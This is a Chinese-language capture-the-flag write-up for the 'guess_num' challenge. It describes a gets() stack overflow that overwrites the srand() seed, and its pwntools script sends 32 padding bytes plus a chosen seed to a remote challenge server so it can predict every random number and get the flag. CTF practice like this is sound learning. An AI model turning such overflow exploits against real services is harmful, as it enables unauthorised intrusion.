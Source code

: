 第一步，使用IDA打开，使用F5插件打开，根据main函数，大致得出这是一个先调用srand()设置一个伪随机数种子，然后根据这个随机种子生成10个随机数，如果生成的随机数与输入的数字相同，则会调用sub_C3E()函数，成功拿到flag
第二步，发现危险函数gets函数，其参数是char v10，通过栈调用发现可以通过溢出的方式，覆盖srand()的参数seed。
第三步，这样我们就可以自己设置这个参数，再编程实现，使得输入的数字与guess_num程序生成的相同。在在线编辑器中编辑程序实现，生成伪随机数，与服务器交互比对。

1、Windows下和在Linux下生成的伪随机数是不一样的
2、具体实现：
(1). 通过垃圾字符覆盖var_30到seed：“a” * 0x20
(2). 使用p64()把1按照64位的方式进行排列产生随机数
(3). 调用srand()生成随机数
(4). 利用循环多次输入进行比较，直到相等。

# /use/bin/python3
# -*- comding:utf8 -*-  
from pwn import *
from ctypes import *
sh = remote('220.249.52.133',30956)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

payload = 'A' * 32 + p64(1) 

sh.sendlineafter("name:",payload)
# get offset is 0x20,edit seed as 1 
libc.srand(1)
for i in range(10):        
    sh.recvuntil("number:")        
    sh.sendline(str(libc.rand()%6+1)) 
# print(str(libc.rand()%6+1)) 
sh.interactive()
